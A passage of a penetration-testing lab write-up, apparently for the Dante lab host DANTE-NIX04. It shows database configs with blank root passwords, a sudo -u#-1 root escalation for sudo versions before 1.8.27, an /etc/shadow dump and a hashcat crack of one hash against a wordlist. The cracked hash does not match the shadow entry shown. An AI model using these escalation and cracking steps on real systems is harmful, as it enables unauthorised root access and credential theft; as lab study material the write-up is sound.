    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User ben may run the following commands on DANTE-NIX04:
    (ALL, !root) /bin/bash

╔══════════╣ Web files?(output limit)
/opt/lampp/htdocs/:
total 5.1M
drwxr-xr-x  6 root   root   4.0K Jul 15  2020 .
drwxr-xr-x 31 root   root   4.0K Jun 26  2020 ..
-rw-r--r--  1 root   root   3.6K Aug 27  2019 applications.html
-rw-r--r--  1 root   root    177 Aug 27  2019 bitnami.css
drwxr-xr-x 11 root   root   4.0K Apr 14  2021 blog
drwxr-xr-x 21 root   root   4.0K Jun 26  2020 dashboard
-rw-r--r--  1 root   root    31K May 11  2007 favicon.ico
drwxr-xr-x  2 root   root   4.0K Jun 26  2020 img

╔══════════╣ Searching passwords in config PHP files
        'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
    $dbPassword = '';
    $dbUsername = 'root';
        'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
    $dbPassword = '';
    $dbUsername = 'root';
    // define('DATABASE', 'mssql'); 
            define('DATABASE', 'mysql');
            define('DATABASE', 'mysqli');
                if($passwd === NULL) $passwd = ini_get("mysql.default_password");
                if($passwd === NULL) $passwd = ini_get("mysqli.default_pw");
define('TABLE_USER',      'mdb_querytool_user');
        'password' => $_ENV['MYSQL_TEST_PASSWD'],
        'password' => $_ENV['PGSQL_TEST_PASSWD'],
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
```

Now first thing first I tried to check those DB configl files we found at the beginning but they didn't unveil sensitive infromations:

```
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/database$ cat conn.php 
<?php
//database connection
($GLOBALS["___mysqli_ston"] = mysqli_connect("localhost","root","","blog_admin_db"));  //host,user,password,database
?>
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/database$ ll
total 20
drwxr-xr-x  2 root root 4096 May  1  2020 ./
drwxr-xr-x 11 root root 4096 Apr 14  2021 ../
-rw-r--r--  1 root root  152 Apr 27  2018 conn.php
-rw-r--r--  1 root root  196 Apr 26  2018 db_connect.php
-rw-r--r--  1 root root  200 Apr 27  2018 db.php
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/database$ cat db.php 
<?php
    $database_username = 'root';//user name
    $database_password = '';//password
    $pdo_conn = new PDO( 'mysql:host=localhost;dbname=blog_admin_db', $database_username, $database_password );
?>
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/database$ cat db_connect.php 
<?php
$con=mysqli_connect("localhost","root","","blog_admin_db");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
 ?>ben@DANTE-NIX04:/opt/lampp/htdocs/blog/database$
```

Seems like the root user is not using any password to connect back to MYSQL DB:

```
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ cat conn.php 
<?php

### EDIT HERE ###

// DB CONNECT INFO
$db_host = "localhost";
$db_name = "blog_admin_db";
$db_user = "root";
$db_pw = "";

// DB TABLE INFO
$GLOBALS['hits_table_name'] = "page_hits";
$GLOBALS['info_table_name'] = "visitor_info";

### STOP EDITING HERE ###

// CONNECT TO DB
try {
    $GLOBALS['db'] = new PDO("mysql:host=".$db_host.";dbname=".$db_name, $db_user, $db_pw, array(PDO::ATTR_PERSISTENT => false, PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC, PDO::ATTR_EMULATE_PREPARES => false));
}
catch(PDOException $e) {
    echo $e->getMessage();
}

?>
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ cat db.php 
<?php
$con=mysqli_connect("localhost","root","","blog_admin_db");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
 ?>
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ cat co
connect.php           conn.php              count_pages.php       count_user_stats.php  
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ cat conn
connect.php  conn.php     
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ cat connect.php 
<?php
$dsn='mysql:host=localhost;dbname=blog_admin_db';//dbname and host
$username='root';//username
$password='';//password
```

Anyway I only see one very interrsting way to PE to root and it's by leveragin in that particular verson of sudo installed. We can use this exploit: https://www.exploit-db.com/exploits/47502

Basically we have to fullfill the version <1.8.27 and we know we can't run any sudo command on /bin/bash which means we should be able to bypass any check by just sending:

```
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben),46(plugdev)
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ whoami
ben
ben@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats$ sudo -u#-1 /bin/bash
Password: 
root@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats# id
uid=0(root) gid=1000(ben) groups=1000(ben)
root@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats# whoami
root
root@DANTE-NIX04:/opt/lampp/htdocs/blog/adminstats#
```

Another flag conquered:



Now Julis home directory is not hiding anything interesting and knowing that this machine have not NIC attached that pokes outside the 172.16.1.0/24 we can move forward to another one.

# OBS:

Here I missed but apparently Julius password could be cracked from /etc/shadow and we could find another account that is relevant for later.

As you see there are 2 different shadow files:

```
drwxr-xr-x   2 root root    4096 Apr 14  2021 sensors.d
-rw-r--r--   1 root root   19183 Dec 25  2016 services
-rw-r-----   1 root shadow  1472 Oct  4  2020 shadow
-rw-r-----   1 root shadow  1537 Jul 27  2020 shadow-
-rw-r--r--   1 root root      73 Feb  3  2020 shells
```

```
root@DANTE-NIX04:/etc# cat shadow
root:$6$mGvSK3Q2$o59ZSjkbMcR6ZXfsb12TV/WUZw7buRIRep5up5YsbZB8w7b1XRa9L/Y.OQoEHxZ5O4aIMzWl6bYeRyUYw3wgW.:18458:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
avahi-autoipd:*:18295:0:99999:7:::
usbmux:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
rtkit:*:18295:0:99999:7:::
cups-pk-helper:*:18295:0:99999:7:::
speech-dispatcher:!:18295:0:99999:7:::
whoopsie:*:18295:0:99999:7:::
kernoops:*:18295:0:99999:7:::
saned:*:18295:0:99999:7:::
pulse:*:18295:0:99999:7:::
avahi:*:18295:0:99999:7:::
colord:*:18295:0:99999:7:::
hplip:*:18295:0:99999:7:::
geoclue:*:18295:0:99999:7:::
gnome-initial-setup:*:18295:0:99999:7:::
gdm:*:18295:0:99999:7:::
ben:$6$uKjV5Ai5$bba9k12/tuqQ45jnVwRyZyg/W3dJlr/T2N05XhZq1dZ4EpAaTKh.O3nQVCRWJrxetME8Il3WbrzmWGsoPf2iE.:18470:0:99999:7:::
mysql:!:18439::::::
julian:$1$CrackMe$U93HdchOpEUP9iUxGVIvq/:18439:0:99999:7:::
sshd:*:18471:0:99999:7:::
```

And finally we could crack it passwors:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$JuLl03Pm$CtdAUUPYSsYPz60TyYKhnoS/ycE5CS0x8h5PSzpwLsHNjAGA2A1oCMYh1Z9Cqi.Pt.pwzDKy0GygjD/b31GSB.:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$JuLl03Pm$CtdAUUPYSsYPz60TyYKhnoS/ycE5CS0x8h5PSzp...31GSB.
Time.Started.....: Wed Sep  6 14:29:48 2023 (1 sec)
Time.Estimated...: Wed Sep  6 14:29:49 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2433 H/s (3.79ms) @ Accel:128 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2816/14344385 (0.02%)
Rejected.........: 0/2816 (0.00%)
Restore.Point....: 2688/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidate.Engine.: Device Generator
Candidates.#1....: my3kids -> medicina

Started: Wed Sep  6 14:29:31 2023
Stopped: Wed Sep  6 14:29:50 2023
```

